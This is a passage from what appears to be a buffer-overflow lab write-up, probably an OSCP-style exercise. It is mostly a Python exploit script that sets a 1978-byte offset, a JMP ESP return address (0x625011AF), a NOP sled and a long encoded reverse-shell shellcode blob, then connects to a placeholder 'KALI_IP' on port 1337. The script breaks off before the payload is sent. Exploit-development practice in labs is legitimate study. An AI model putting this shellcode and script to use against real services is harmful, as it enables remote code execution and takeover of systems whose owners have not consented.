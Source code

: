 ```text
padding = "\x90" * 16
```

## Exploit

With the correct prefix, offset, return address, padding, and payload set, exploit the buffer overflow to get a 
reverse shell.

```text
import socket
import sys
import time


print("[+]  Shell at 4444...\n")

buff = "A" * 1978
eip = "\xaf\x11\x50\x62" #0x625011AF JMP ESP pointer address

nops = "\x90" * 20

shellcode =  b""
shellcode += b"\xba\xad\x13\xdd\x9f\xda\xcd\xd9\x74\x24\xf4"
shellcode += b"\x58\x33\xc9\xb1\x52\x83\xe8\xfc\x31\x50\x0e"
shellcode += b"\x03\xfd\x1d\x3f\x6a\x01\xc9\x3d\x95\xf9\x0a"
shellcode += b"\x22\x1f\x1c\x3b\x62\x7b\x55\x6c\x52\x0f\x3b"
shellcode += b"\x81\x19\x5d\xaf\x12\x6f\x4a\xc0\x93\xda\xac"
shellcode += b"\xef\x24\x76\x8c\x6e\xa7\x85\xc1\x50\x96\x45"
shellcode += b"\x14\x91\xdf\xb8\xd5\xc3\x88\xb7\x48\xf3\xbd"
shellcode += b"\x82\x50\x78\x8d\x03\xd1\x9d\x46\x25\xf0\x30"
shellcode += b"\xdc\x7c\xd2\xb3\x31\xf5\x5b\xab\x56\x30\x15"
shellcode += b"\x40\xac\xce\xa4\x80\xfc\x2f\x0a\xed\x30\xc2"
shellcode += b"\x52\x2a\xf6\x3d\x21\x42\x04\xc3\x32\x91\x76"
shellcode += b"\x1f\xb6\x01\xd0\xd4\x60\xed\xe0\x39\xf6\x66"
shellcode += b"\xee\xf6\x7c\x20\xf3\x09\x50\x5b\x0f\x81\x57"
shellcode += b"\x8b\x99\xd1\x73\x0f\xc1\x82\x1a\x16\xaf\x65"
shellcode += b"\x22\x48\x10\xd9\x86\x03\xbd\x0e\xbb\x4e\xaa"
shellcode += b"\xe3\xf6\x70\x2a\x6c\x80\x03\x18\x33\x3a\x8b"
shellcode += b"\x10\xbc\xe4\x4c\x56\x97\x51\xc2\xa9\x18\xa2"
shellcode += b"\xcb\x6d\x4c\xf2\x63\x47\xed\x99\x73\x68\x38"
shellcode += b"\x0d\x23\xc6\x93\xee\x93\xa6\x43\x87\xf9\x28"
shellcode += b"\xbb\xb7\x02\xe3\xd4\x52\xf9\x64\xd1\xb3\x0f"
shellcode += b"\xf9\x8d\xb1\x0f\x10\x12\x3f\xe9\x78\xba\x69"
shellcode += b"\xa2\x14\x23\x30\x38\x84\xac\xee\x45\x86\x27"
shellcode += b"\x1d\xba\x49\xc0\x68\xa8\x3e\x20\x27\x92\xe9"
shellcode += b"\x3f\x9d\xba\x76\xad\x7a\x3a\xf0\xce\xd4\x6d"
shellcode += b"\x55\x20\x2d\xfb\x4b\x1b\x87\x19\x96\xfd\xe0"
shellcode += b"\x99\x4d\x3e\xee\x20\x03\x7a\xd4\x32\xdd\x83"
shellcode += b"\x50\x66\xb1\xd5\x0e\xd0\x77\x8c\xe0\x8a\x21"
shellcode += b"\x63\xab\x5a\xb7\x4f\x6c\x1c\xb8\x85\x1a\xc0"
shellcode += b"\x09\x70\x5b\xff\xa6\x14\x6b\x78\xdb\x84\x94"
shellcode += b"\x53\x5f\xa4\x76\x71\xaa\x4d\x2f\x10\x17\x10"
shellcode += b"\xd0\xcf\x54\x2d\x53\xe5\x24\xca\x4b\x8c\x21"
shellcode += b"\x96\xcb\x7d\x58\x87\xb9\x81\xcf\xa8\xeb"

payload = buff + eip + nops + shellcode

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the Application
s.connect(('KALI_IP', 1337))
s.recv(1024)
```